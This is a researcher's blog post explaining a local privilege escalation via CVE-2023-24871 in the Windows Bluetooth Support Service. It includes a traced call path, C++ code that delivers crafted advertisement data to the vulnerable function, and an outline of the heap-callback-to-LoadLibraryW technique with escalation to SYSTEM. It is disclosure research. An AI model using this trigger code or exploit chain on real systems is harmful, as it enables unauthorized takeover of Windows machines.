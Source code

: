 ```yaml
---
layout: post
title: CVE-2023-24871 - LPE
master: bthadv-2022
---
```

<script>
addCustomTypes(['BR_VALUE_TYPE', 'BR_BUFFER', 'BR_EVENT_PARAMETER', 'BiRtCreateEventForAppFn', 'GUID', 'HMODULE', 'function', 'HRESULT', 'BUFFER', 'INT']);
addCustomNames(['trigger', 'UseExtendedFormat', 'manufacturerData', 'CompanyId', 'Advertisement', 'm_Size', 'm_Data', 'm_Name', 'm_Type', 'm_IntValue', 'm_BufValue', 'name', 'value', 'advData', 'eventParameters', 'biWinRtModule', 'createEventForApp', 'zeroGuid', 'eventParams', 'bthEventBrokerGuidBytes', 'bthEventBrokerGuid', 'vector']);
</script>

*[← CVE-2023-24871 - RCE](/x-cve-2023-24871-rce)* | *[CVE-2023-23388 →](/v-cve-2023-23388)*

The path to LPE using CVE-2023-24871 is much simpler than the paths leading to RCE, as there's only a single module that's affected. And of course, the attack is local, so there's no need to mess around with two devices. This is a pretty classic LPE case on Windows - a privileged service runs an RPC server that unprivileged applications can connect to. Data sent from the unprivileged client can trigger a vulnerability on the server, and a wild LPE manifests.

## contents
---
- [1.0 reachability](#10-reachability)
- [2.0 prerequisites](#20-prerequisites)
- [3.0 poc + exploit](#30-poc--exploit)

## [1.0] reachability
---
In this case, there's only a single vulnerable module, and that's once again the **Bluetooth Support Service**, that we'll once again call **bthserv**. This service runs an RPC server that unprivileged applications can connect to. The interface that connects unprivileged applications to the RPC server is public and exposed via WinRT API under [`Windows.Devices.Bluetooth`](https://learn.microsoft.com/en-us/uwp/api/windows.devices.bluetooth?view=winrt-22621). The interface allows applications to do a whole lot of things involving BLE, including setting up outgoing advertisements via [`BluetoothLEAdvertisementPublisher`](https://learn.microsoft.com/en-us/uwp/api/windows.devices.bluetooth.advertisement.bluetoothleadvertisementpublisher?view=winrt-22621) objects.

The vulnerable function is reachable through the following code path in `Windows.Internal.Bluetooth.dll` that's used by the service:

```txt
Windows.Internal.Bluetooth.dll!BthLELib_ADValidateEx()
Windows.Internal.Bluetooth.dll!Windows::Devices::Bluetooth::EventBroker::BluetoothLEAdvertisementPublisherTrigger::s_UnpackParameters(struct _BR_EVENT_PARAMETERS *,enum BluetoothEventBroker_AdvertisementPublisherVersion)
Windows.Internal.Bluetooth.dll!<lambda>(void)()
Windows.Internal.Bluetooth.dll!wil::ResultFromException<<lambda>(void)>()
Windows.Internal.Bluetooth.dll!Windows::Devices::Bluetooth::EventBroker::BluetoothLEAdvertisementPublisherTrigger::Create(class std::shared_ptr<class BluetoothEventBroker>,struct _BROKERED_EVENT *,struct _BR_EVENT_PARAMETERS *,enum _BR_EVENT_CALL_REASON,void *,unsigned short const *,unsigned long,class std::shared_ptr<class BaseTrigger> &)
Windows.Internal.Bluetooth.dll!<lambda>(void)()
Windows.Internal.Bluetooth.dll!wil::ResultFromException<<lambda>(void)>()
Windows.Internal.Bluetooth.dll!BluetoothEventBroker::s_OnCreateEvent(enum _BR_EVENT_CALL_REASON,struct _BROKER *,struct _BROKERED_EVENT *,struct _BR_EVENT_PARAMETERS *,unsigned short const *,void *,void *,void *,void * *,unsigned long *,struct _BR_NEW_EVENT_INFORMATION *)
BrokerLib.dll!Broker::BrokerBase::CreateBrokeredEventEA()
BrokerLib.dll!BrpCreateBrokeredEvent()
BrokerLib.dll!_BriCreateEvent()
rpcrt4.dll!Invoke()
...
```

At the bottom of the callstack is the familiar `rpcrt4.dll!Invoke()`, meaning that the call comes from an RPC call issued by a client. To reach the function, it's sufficient to issue this RPC call from an application that previously connected to the server. A standard way of doing that would be to use the [NtObjectManager](https://www.powershellgallery.com/packages/NtObjectManager) library, but here we have an opportunity to do it in a more managed way. Note that one of the entries in the call stack is `BluetoothLEAdvertisementPublisherTrigger::Create`, which points towards the server creating a  [`BluetoothLEAdvertisementPublisherTrigger`](https://learn.microsoft.com/en-us/uwp/api/windows.applicationmodel.background.bluetoothleadvertisementpublishertrigger?view=winrt-22621) object. And indeed, this code path can be triggered by creating such an object in an unprivileged application, filling it with the appropriate data, and registering it under a background task. For example, the following C++/CX WinRT code would do the job:

```cpp
auto trigger = ref new BluetoothLEAdvertisementPublisherTrigger();
trigger->UseExtendedFormat = true;

auto manufacturerData = ref new BluetoothLEManufacturerData();
manufacturerData->CompanyId = 0x1234;
trigger->Advertisement->ManufacturerData->Append(manufacturerData);

auto builder = ref new BackgroundTaskBuilder();
builder->SetTrigger(trigger);
builder->Register();
```

The client callstack looks like:
```txt
rpcrt4.dll!NdrpClientCall3()
rpcrt4.dll!NdrClientCall3()
biwinrt.dll!RBiRtCltCreateEventForApp(void *)
biwinrt.dll!BiRtCreateEventForApp(_GUID * EventId=0x000001977a2ea508, const _GUID * BrokerId=0x00007ffd034fd5b0, unsigned long EventFlags=0, _BR_EVENT_PARAMETERS * Parameters=0x00000073574fe518)
Windows.Devices.Bluetooth.dll!Windows::ApplicationModel::Background::BluetoothLEAdvertisementPublisherTrigger::Create(void)
biwinrt.dll!Windows::ApplicationModel::Background::CBackgroundTaskBuilder::Register(Windows::ApplicationModel::Background::IBackgroundTaskRegistration * * Task=0x000001977d575a40)
... (this is on a different thread than the code which executes above)
```

One problem with the approach above is that advertisement data that would otherwise trigger the vulnerability will be rejected by local checks in `BluetoothLEAdvertisementPublisherTrigger::Create`. The function ensures that there are at most **255** sections in the advertisement data and exits early if that's not the case. To prevent this from happening, we could dirty patch the checks since they're local, but that becomes a mess to deal with across different versions of the DLL.

Initially I meant to reverse the format that the requests were serialized to in RPC packets, but there turned out to be a path of less resistance. Looking at the call stacks above, we can see that there's an intermediate layer between the RPC runtime and WinRT. The server side callstack contains a few entries from `BrokerLib.dll`, with client side counterparts in `biwinrt.dll`. The function names point towards there being bluetooth "events" that the requests are transformed to and from. Long story short, reversing the structures here was pretty simple and I had working code fairly quickly. You can find out more about this middle layer in the post describing the other vulnerability, as it's present in the RPC server code in `BrokerLib.dll`.

The code below can then be used to trigger the vulnerability:
```cpp
// Reverse engineered from Windows.Devices.Bluetooth.dll
enum class BR_VALUE_TYPE
{
    INT = 0,
    BUFFER = 4,
};

// Reverse engineered from Windows.Devices.Bluetooth.dll
struct __declspec(align(8)) BR_BUFFER
{
    uint64_t m_Size;
    const void* m_Data;
};

// Reverse engineered from Windows.Devices.Bluetooth.dll
struct __declspec (align(8)) BR_EVENT_PARAMETER
{
    BR_EVENT_PARAMETER(const wchar_t* name, int32_t value)
    {
        m_Name = name;
        m_Type = BR_VALUE_TYPE::INT;
        m_IntValue = value;
    }

    BR_EVENT_PARAMETER(const wchar_t* name, const BR_BUFFER& value)
    {
        m_Name = name;
        m_Type = BR_VALUE_TYPE::BUFFER;
        m_BufValue = value;
    }

    const wchar_t* m_Name;
    BR_VALUE_TYPE m_Type;
    union
    {
        int32_t m_IntValue;
        BR_BUFFER m_BufValue;
    };
};

HRESULT TriggerVuln(const std::vector<uint8_t>& advData)
{
    // Fetch the pointer to BiRtCreateEventForApp
    using BiRtCreateEventForAppFn = HRESULT(GUID&, GUID&, int64_t, BR_BUFFER&);
    HMODULE biWinRtModule = GetModuleHandle(L"biwinrt.dll");
    std::function<BiRtCreateEventForAppFn> createEventForApp = reinterpret_cast<BiRtCreateEventForAppFn*>(GetProcAddress(biWinRtModule, "BiRtCreateEventForApp"));
    
    // event parameters, taken from BluetoothLEAdvertisementPublisherTrigger::Create
    std::vector<BR_EVENT_PARAMETER> eventParameters;
    eventParameters.emplace_back(L"EventType", 4);
    eventParameters.emplace_back(L"Version", 3);
    eventParameters.emplace_back(L"UseExtendedFormat", 1);
    eventParameters.emplace_back(L"IsAnonymous", 0);
    eventParameters.emplace_back(L"IncludeTransmitPowerLevel", 0);
    eventParameters.emplace_back(L"AdvertisementPayload", BR_BUFFER{ advData.size(), advData.data() });
    
    GUID zeroGuid = {};
    BR_BUFFER eventParams = { eventParameters.size(), eventParameters.data() };
    
    // Bluetooth GUID, taken from Windows.Devices.Bluetooth.dll
    uint8_t bthEventBrokerGuidBytes[] = { 0x62, 0xE9, 0xCA, 0xFC, 0x22, 0x47, 0xC7, 0x40, 0xA4, 0x6D, 0xFE, 0x51, 0x53, 0x28, 0x07, 0x23 };
    GUID bthEventBrokerGuid = {};
    memcpy(&bthEventBrokerGuid, bthEventBrokerGuidBytes, sizeof(GUID));
    
    // Send our event
    return createEventForApp(zeroGuid, bthEventBrokerGuid, 0, eventParams);
}
```

Calling the function above with appropriate advertisement data as the parameter will propagate the data all the way to the vulnerable function, triggering the vulnerability in **bthserv**.

## [2.0] prerequisites
---
Unlike the RCE case, the prerequisites for an LPE to be achievable are pretty standard. The only condition needed for a system to be vulnerable is for Bluetooth to be enabled. Even when the local controller doesn't support or enable extended advertising, the code path to the vulnerable function doesn't check whether the client request is asking for extended advertising (this happens further down the bluetooth stack).

Connecting to the RPC server that's hosted by **bthserv** requires the calling application to be in AppContainer and declare the [Bluetooth capability](https://learn.microsoft.com/en-us/windows/uwp/packaging/app-capability-declarations). This prevents regular native applications from communicating with the server, but they can just start an AppContainer with the capability and they'll be good to go. In my PoC / exploit I opted to just inject a thread into `StartMenuExperienceHost.exe`, since that process already hosts an app with the required capability.

## [3.0] poc + exploit
---
There's both a simple PoC and a fully functional exploit on [github](https://github.com/ynwarcs/CVE-2023-24871/tree/main/lpe). Unlike classic exploits which go from read/write primitives to stack pivot + ROP chain, this one is a little more ad-hoc, as I didn't want to dedicate too much time to it. It relies on overwriting certain heap memory that holds a pointer to a callback along with data that's passed as the only argument to the callback. We overwrite the callback to point towards `LoadLibraryW` and the argument to point towards a file path in memory of one of the DLLs. We deploy a malicious DLL at this file path and let `LoadLibraryW` load it. Since **bthserv** runs as **LOCAL SERVICE**, what's left is to escalate to **SYSTEM**. I used [JuicyPotatoNG](https://github.com/antonioCoco/JuicyPotatoNG) for that purpose. You can check out the video below for the demonstration of the exploit, and the github page for more details on how the exploit works and how to run it.

<br>

<iframe preload="none" style="border:2px solid white; display:block; margin:auto; max-width:520px;" align="center" width="100%" height="300" src="/assets/bthadv-2022/exploit.webm" frameborder="0" type="video/mp4"> </iframe>

*[← CVE-2023-24871 - RCE](/x-cve-2023-24871-rce)* | *[CVE-2023-23388 →](/v-cve-2023-23388)*